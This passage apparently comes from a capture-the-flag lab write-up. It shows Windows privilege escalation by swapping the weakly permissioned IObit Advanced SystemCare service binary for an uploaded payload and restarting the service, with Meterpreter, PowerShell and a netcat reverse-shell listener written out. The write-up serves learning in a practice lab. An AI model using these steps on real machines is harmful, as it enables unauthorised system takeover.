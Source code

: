 ```meterpreter
upload /home/kali/ASCService.exe
powershell_shell
```

Replace the ASCService.exe binary (its permissions are such that we can do this) and restart the service:

```powershell
Stop-Service -Name AdvancedSystemCareService9
cp "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
   ASCService.exe.bak
cp -force ASCService.exe
   "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
Start-Service -Name AdvancedSystemCareService9
```

(We can run Stop-Service and Start-Service because the user we've compromised has the CanRestart permission for this service.)

Catch this reverse shell using netcat:

```bash
nc -lvnp 4443
```

Once we have the root flag, let's put the service back the way it was before we try the non-Metasploit version of this.

```powershell
Stop-Service -Name AdvancedSystemCareService9
cp -force ASCService.exe.bak
   "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
Start-Service -Name AdvancedSystemCareService9
```

* [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [Using "netcat"](../notes/netcat.md)
